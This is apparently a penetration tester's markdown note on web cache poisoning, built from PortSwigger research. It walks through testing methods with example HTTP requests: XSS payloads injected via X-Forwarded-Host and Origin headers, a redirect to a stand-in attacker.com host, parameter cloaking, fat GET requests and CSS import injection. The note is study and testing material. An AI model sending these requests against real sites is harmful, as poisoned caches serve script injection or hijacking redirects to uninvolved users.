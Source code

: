 ```yaml
---
layout: note
title: "Web Cache Poisoning"
category: Web security
tag: [Web security, Note]
---
```


# Web cache poisoning

## Main idea
Web cache poisoning is the act of tricking the web cache to store malicious content that will in turn be served to other users. The three most common ways of poisoning web caches are **request smuggling**, **request splitting** and **poisoning using unkeyed inputs** (also known as practical web cache poisoning).

## Methodology

![Practical Web Cache Poisoning](https://portswigger.net/cms/images/ec/b8/0d97faa475af-article-methodology-full-landscape.svg "Practical Web Cache Poisoning")

![Web Cache Entanglement](https://portswigger.net/cms/images/f8/ba/1abc-article-methodology.png "Web cache entanglement")

## Testing guide

### Design flaws

#### Look after reflected headers in the response
```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

#### Abuse redirects if the cache allows you
```http
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http
X-Forwarded-Host: attacker.com

HTTP/1.1 301 moved permanently
Location: https://attacker.com/random
```

### Implementation flaws


#### Unkeyed port
```http
GET / HTTP/1.1
Host: vulnerable-website.com:1337

HTTP/1.1 302 Moved Permanently
Location: https://vulnerable-website.com:1337/en
Cache-Status: miss
```

#### Unkeyed query string
In such a case you could add a header based cache buster:
```http
Accept-Encoding: gzip, deflate, cachebuster
Accept: */*, text/cachebuster
Cookie: cachebuster=1
Origin: https://cachebuster.vulnerable-website.com
```
The server and the cache might not recognize the paths in the same way. Here are some aliases for app root:
> Apache: GET //
Nginx: GET /%2F
PHP: GET /index.php/xyz
.NET GET /(A(xyz)/

Might wanna consider that there might be just some unkeyed query parameters and not the whole string.

#### Cache parameter cloaking

##### Exploiting parameter parsing quirks
Check if the cache treats question marks (`?`) and ampersands (`&`) the same.
```http
GET /?example=123?excluded_param=bad-stuff-here HTTP/1.1
```

Check if the backend accepts other delimiters for parameters.
The Ruby on Rails framework, for example, interprets both ampersands (`&`) and semicolons (`;`) as delimiters.
```http
GET /?keyed_param=abc&unkeyed_param=123;keyed_param=bad-stuff-here HTTP/1.1
```

##### Exploiting the behavior of HTTP methods.  
In select cases, the **HTTP method may not be keyed**. This might allow you to poison the cache with a POST request containing a malicious payload in the body.
```http
POST /js/geolocate.js?callback=setCountryCookie HTTP/1.1
…
callback=arbitraryFunction

HTTP/1.1 200 OK
X-Cache-Key: /js/geolocate.js?callback=setCountryCookie
…
arbitraryFunction({"country" : "United Kingdom"})

GET /js/geolocate.js?callback=setCountryCookie HTTP/1.1

HTTP/1.1 200 OK
X-Cache-Key: /js/geolocate.js?callback=setCountryCookie
…
arbitraryFunction({"country" : "United Kingdom"})
```
A fat GET would be a **GET request with a body**. If such a behavior is allowed then **parameters might be parsed from request body** instead of URL on server-side and the cache would be poisoned with the response from a different parameter.  
```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/1.1
…
callback=arbitraryFunction

HTTP/1.1 200 OK
X-Cache-Key: /js/geolocate.js?callback=setCountryCookie
…
arbitraryFunction({"country" : "United Kingdom"})
```

##### Exploiting dynamic content in resource imports
For example, consider a page that reflects the current query string in an import statement:
```http
GET /style.css?unkeyed_param=123);@import… HTTP/1.1

HTTP/1.1 200 OK
…
@import url(/site/home/index.part1.8a6715a2.css?excluded_param=123);@import…
```
You could exploit this behavior to inject malicious CSS that exfiltrates sensitive information from any pages that import /style.css.  
If the page importing the CSS file doesn't specify a doctype, you can maybe even exploit static CSS files. Given the right configuration, browsers will simply scour the document looking for CSS and then execute it. This means that you can occasionally poison static CSS files by triggering a server error that reflects the excluded query parameter:
```http
GET /style.css?excluded_param=alert(1)%0A{}*{color:red;} HTTP/1.1

HTTP/1.1 200 OK
Content-Type: text/html
…
This request was blocked due to…alert(1){}*{color:red;}
```

#### Normalized cache keys

For example, when you find reflected XSS in a parameter, it is often unexploitable in practice. This is because modern browsers typically URL-encode the necessary characters when sending the request, and the server doesn't decode them. The response that the intended victim receives will merely contain a harmless URL-encoded string.  
Some caching implementations normalize keyed input when adding it to the cache key. In this case, both of the following requests would have the same key:
```http
GET /example?param="><test> HTTP/1.1
GET /example?param=%22%3e%3ctest%3e HTTP/1.1
```

#### Cache key injection
You will sometimes discover a client-side vulnerability in a keyed header. This is also a classic "unexploitable" issue that can sometimes be exploited using cache poisoning.  
Keyed components are often bundled together in a string to create the cache key. If the cache doesn't implement proper escaping of the delimiters between the components, you can potentially exploit this behavior to craft two different requests that have the same cache key.  
```http
GET /path?param=123 HTTP/1.1
Origin: '-alert(1)-'__

HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__

<script>…'-alert(1)-'…</script>
```
If you then induce a victim user to visit the following URL, they would be served the poisoned response:
```http
GET /path?param=123__Origin='-alert(1)-'__ HTTP/1.1

HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__
X-Cache: hit

<script>…'-alert(1)-'…</script>
```

#### Internal cache poisoning

There will be a dark day when you will meet application level caches. May God be with you friend.  
Check for changed in reflected parameters with a dynamic cache buster added.

## Attack surface

- Reflected XSS doesn't require user interaction anymore
- Unexploitable XSS might become a exploitable

## Tools

- Burp extension - Param Miner

## Resources
[Portswigger](https://portswigger.net/web-security/web-cache-poisoning/)  
[Practical web cache poisoning](https://portswigger.net/research/practical-web-cache-poisoning)  
[Web cache entanglement](https://portswigger.net/research/web-cache-entanglement)
